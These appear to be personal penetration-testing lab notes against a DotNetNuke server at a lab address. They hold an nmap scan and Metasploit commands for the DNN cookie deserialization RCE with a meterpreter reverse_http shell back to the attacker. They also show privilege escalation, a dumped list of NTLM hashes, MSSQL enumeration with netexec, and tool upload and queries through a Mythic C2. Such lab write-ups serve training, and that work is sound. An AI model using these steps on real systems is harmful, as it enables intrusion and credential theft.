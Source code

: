 Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.10.153.71,1433 -Q "SELECT name, database_id, create_date FROM sys.databases;"
```